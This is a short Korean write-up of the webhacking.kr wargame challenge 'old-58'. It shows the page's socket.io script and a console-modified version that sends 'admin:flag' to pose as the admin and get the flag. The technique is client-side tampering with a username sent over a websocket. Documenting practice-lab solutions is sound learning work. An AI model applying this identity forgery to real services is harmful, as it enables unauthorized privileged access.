 ```yaml
---
title: ["[Webhacking.kr] old-58 (misc - 15)"]
date: 2024-11-01 09:00:00 +0900
categories: [writeup, webhacking.kr]
tags: [web, misc, javascript]
---
```



```javascript
$(function () {
    var username = "guest";
    var socket = io();
    $('form').submit(function(e){
    e.preventDefault();
    socket.emit('cmd',username+":"+$('#m').val());
    $('#m').val('');
    return false;
    });
    socket.on('cmd', function(msg){
    $('#messages').append($('<li>').text(msg));
    });
});
```  

이것저것 값을 넣어본 결과, `admin:flag`값을 `socket()`함수로 전송해주면 될 것  같다.  

```javascript
$(function () {
    var socket = io();
    $('form').submit(function(e){
    e.preventDefault();
    socket.emit('cmd',"admin:flag");
    });
    socket.on('cmd', function(msg){
    $('#messages').append($('<li>').text(msg));
    });
});
```
이렇게 스크립트를 console에서 수정해줬다.  